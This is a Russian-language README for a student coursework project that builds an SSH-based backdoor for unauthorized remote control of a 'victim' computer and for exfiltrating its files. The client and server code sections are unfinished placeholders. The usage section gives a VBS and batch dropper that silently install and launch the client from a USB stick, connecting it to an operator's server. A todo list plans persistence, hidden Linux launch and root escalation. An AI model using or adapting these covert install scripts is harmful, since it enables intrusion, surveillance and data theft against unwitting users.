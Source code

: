 # Курсовая работа по АВС
## Тема проекта
Backdoor
## Техническое задание
Используя клиент-серверную архитектуру, написать программу наподобие бэкдора для несанкционированного доступа к данным, удаленному управлению операционной системой. Использовать SSH. Реализовать возможность отправки файлов с компьютера жертвы на сервер.
## Пояснительная записка (незаконченная версия)
### Содержание
0. Введение
1. Серверная часть
2. Клиентская часть
3. Описание использования
4. Заключение
## Введение
#### Основные понятия
_Клиент — сервер_ (англ. client–server) — вычислительная или сетевая архитектура, в которой задания или сетевая нагрузка распределены между поставщиками услуг, называемыми серверами, и заказчиками услуг, называемыми клиентами. Фактически клиент и сервер — это программное обеспечение. Обычно эти программы расположены на разных вычислительных машинах и взаимодействуют между собой через вычислительную сеть посредством сетевых протоколов, но они могут быть расположены также и на одной машине. 

_Сокет_ (англ. socket — разъём) — название программного интерфейса для обеспечения обмена данными между процессами. Процессы при таком обмене могут исполняться как на одной ЭВМ, так и на различных ЭВМ, связанных между собой сетью. Сокет — абстрактный объект, представляющий конечную точку соединения. 

_SSH_ (англ. Secure Shell — «безопасная оболочка») — сетевой протокол прикладного уровня, позволяющий производить удалённое управление операционной системой и туннелирование TCP-соединений (например, для передачи файлов). Схож по функциональности с протоколами Telnet и rlogin, но, в отличие от них, шифрует весь трафик, включая и передаваемые пароли. SSH допускает выбор различных алгоритмов шифрования. SSH-клиенты и SSH-серверы доступны для большинства сетевых операционных систем. SSH позволяет безопасно передавать в незащищённой среде практически любой другой сетевой протокол. Таким образом, можно не только удалённо работать на компьютере через командную оболочку, но и передавать по шифрованному каналу звуковой поток или видео (например, с веб-камеры). 

_Бэкдор_ (англ. backdoor) - вредоносная программа, которая используется для получения несанкционированного удаленного доступа к компьютерной системе, за счет уязвимости в системе безопасности. Бэкдор обычно работает в фоновом режиме и является одним из самых опасных типов вредоносного программного обеспечения, так как он дает возможность выполнять любые возможные действия на зараженном компьютере. Злоумышленник может использовать бэкдор, чтобы следить за пользователем, управлять его файлами, устанавливать дополнительное программное обеспечение, контролировать всю систему ПК и атаковать другие хосты. Часто бэкдор имеет дополнительные возможности, такие как выполнение скриншотов, заражение и шифрование файлов.

#### Архитектура бэкдора
Выше уже была рассмотрена сетевая архитектура клиент-сервер, однако для реализации бэкдора данная архитектура используется наоборот. Сервер посылает команды на компьютер с бэкдором через SSH канал, а программа клиент их выполняет и возвращает ответ в виде сообщения, файлов.

## Серверная часть
Type text here...

Вместе с сервером в папке должен быть файл с именем `test_rsa.key` содержащий RSA ключ.
У большинства дистрибутивов ОС Linux есть _openssl_, с помощью которого можно сгенерировать ключ:
```sh
openssl genpkey -out 'test_rsa.key' -algorithm rsa -pkeyopt rsa_keygen_bits:2048
```
Для ОС Windows его можно сгенерировать, используя [puttygen](http://www.putty.org/), например.
Также в используемой библиотеке `paramiko` есть статический метод:
```python
paramiko.RSAKey.generate(2048)
```
## Клиентская часть
Type text here...
## Описание использования
Файл `server.py` следует запускать непосредственно на компьютере, с которого вы хотите контролировать целевую систему. Файл `client.py` нужно внедрить на компьютер жертвы и запустить его (для Windows это предусмотрено). 
1\. запуск сервера
```
usage: server.py [-h] [-p PORT] un ps
positional arguments:
  un                    the username to establish ssh connection
  ps                    the password to establish ssh connection
optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  the ssh port, 1234 by default
```
Стоит заметить, при запуске сервера без указания порта будет использоваться порт 1234, данный порт не является ssh по умолчанию.
2\. запуск клиента на целевой ЭВМ
```
usage: client.py [-h] [-v] sip sp un ps
positional arguments:
  sip            the server ip
  sp             the server port
  un             the username of the ssh connection
  ps             the password of the ssh connection
optional arguments:
  -h, --help     show this help message and exit
  -v, --verbose
```
2.1 запуск клиента на целевой ЭВМ (Windows)
(_На ОС должен быть установлен python-интерпертатор!_)
Для ОС Windows были написаны скрипты для скрытого запуска с флешки.
На флешке у вас должно быть 3 файла для успешного запуска клиентской части.
Нужно запустить скрипт `run0.vbs`:
```vbs
CreateObject("Wscript.Shell").Run "run.bat",0,True
```
который запустит следующий скрипт без появления консоли:
`run.bat`
```bat
@echo off
mkdir c:\backdoor
copy "client.py" "C:\backdoor" @rem 'backdoor' - dir to place our client program
copy "run.bat" "C:\backdoor"
cd c:\backdoor
c:
pip install paramiko @rem download necessary lib (comment if it's already downloaded)
python C:\backdoor\client.py server_ip server_port ssh_uname ssh_pswd @rem pass your params here (more details see above)
exit
```
После этого флешку можно извлекать. При безопасном извлечении возникнет предупреждение, что диск используется - это из-за shell скрипта, но можно не обращать на это внимания и спокойно извлекать диск.

## Список использованной литературы
1) https://ru.wikipedia.org/wiki/%D0%9A%D0%BB%D0%B8%D0%B5%D0%BD%D1%82_%E2%80%94_%D1%81%D0%B5%D1%80%D0%B2%D0%B5%D1%80
2) https://ru.wikipedia.org/wiki/%D0%A1%D0%BE%D0%BA%D0%B5%D1%82_(%D0%BF%D1%80%D0%BE%D0%B3%D1%80%D0%B0%D0%BC%D0%BC%D0%BD%D1%8B%D0%B9_%D0%B8%D0%BD%D1%82%D0%B5%D1%80%D1%84%D0%B5%D0%B9%D1%81)
3) https://docs.python.org/3.8/library/socket.html
4) https://resources.infosecinstitute.com
5) http://docs.paramiko.org/en/stable/api
6) https://docs.python.org/2/howto/argparse.html
7) https://pypi.org/project/socket-wait/


### Todos

 - Добавить возможность возобновления работы после перезапуска системы
 - Сделать скрытый запуск для ОС Linux
 - Добавить возможность получения root прав
 - Сделать функцию для отправки скриптов клиенту

License
----

MIT